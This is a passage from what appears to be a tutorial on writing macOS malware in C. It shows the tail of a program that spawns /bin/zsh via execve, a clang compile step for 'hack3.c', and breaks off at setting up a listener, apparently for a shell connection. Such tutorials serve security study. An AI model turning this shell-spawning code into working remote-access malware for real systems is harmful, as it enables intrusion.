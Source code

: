 ```cpp

  char *const argv[] = {"/bin/zsh", NULL};
  execve("/bin/zsh", argv, NULL);

  return 0;
}
```

the only difference is:     

```cpp
char *const argv[] = {"/bin/zsh", NULL};
execve("/bin/zsh", argv, NULL);
```

In `execve`, the second argument is an array of command-line arguments, where the first element must be the path to the executable and the last element must be `NULL`. If the argument array is not passed, some shells (like `zsh`) will throw an error: `too few arguments`.    

### demo 3

Let's check C code in action. Compile it in my Mac OS X VM (Intel):     

```bash
clang -o hack3 hack3.c
```

![malware](/assets/images/163/2025-07-06_10-14.png){:class="img-responsive"}    

![malware](/assets/images/163/2025-07-06_10-31.png){:class="img-responsive"}    

Then, prepare listener and run:     
